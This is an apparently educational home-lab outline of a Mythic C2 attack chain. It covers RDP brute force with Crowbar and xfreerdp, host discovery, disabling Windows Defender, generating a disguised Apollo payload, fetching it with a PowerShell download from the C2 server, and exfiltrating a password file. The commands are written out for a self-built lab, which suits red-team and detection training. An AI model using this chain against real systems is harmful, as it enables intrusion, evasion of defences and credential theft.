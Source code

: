 # Day 21: Mythic C2 Framework Challenge - Step-by-Step Outline

## 1. Initial Setup
1. Create a fake password file on the Windows Server
   - Path: C:\Users\Administrator\Documents\passwords.txt
   - Content: Winter2024!

2. Change Windows Server password
   - New password: Winter2024!
   - Modify Group Policy to allow simpler passwords

## 2. RDP Brute Force Attack
1. Prepare wordlist on Kali Linux
   - Use rockyou.txt as base
   - Add custom password (Winter2024!)

2. Install and use Crowbar for brute force attack
   - Command: `crowbar -b rdp -u administrator -C mydfir_wordlist.txt -s 149.248.59.41/32`

3. Successful login with xfreerdp
   - Command: `xfreerdp /u:administrator /p:Winter2024! /v:149.248.59.41:3389`

## 3. Post-Exploitation Discovery
1. Run discovery commands on Windows Server
   - whoami
   - ipconfig
   - net user
   - net group

## 4. Defense Evasion
1. Disable Windows Defender via GUI

## 5. Mythic C2 Setup
1. Install Apollo agent in Mythic
   - Command: `./mythic-cli install github https://github.com/MythicAgents/apollo`

2. Install HTTP C2 profile
   - Command: `./mythic-cli install github https://github.com/MythicC2Profiles/http`

3. Generate payload in Mythic web GUI
   - Agent: Apollo
   - C2 Profile: HTTP
   - Output: Windows executable
   - Callback host: http://[Mythic server IP]
   - Port: 80

4. Download and rename payload on Mythic server
   - New name: service_host_dstepro.exe

## 6. Payload Delivery and Execution
1. Set up Python HTTP server on Mythic server
   - Command: `python3 -m http.server 9999`

2. Download payload on Windows Server using PowerShell
   - Command: `Invoke-WebRequest -Uri "http://[Mythic server IP]:9999/service_host_dstepro.exe" -OutFile "C:\Users\Public\Downloads\service_host_stepro.exe"`

3. Execute payload on Windows Server

## 7. C2 Session Establishment
1. Verify C2 connection in Mythic web GUI
2. Run test commands (whoami, ipconfig) through Mythic interface

## 8. Data Exfiltration
1. Use Mythic to download the password file
   - Command: `download C:\Users\Administrator\Documents\passwords.txt`

2. Verify exfiltrated file contents in Mythic web GUI
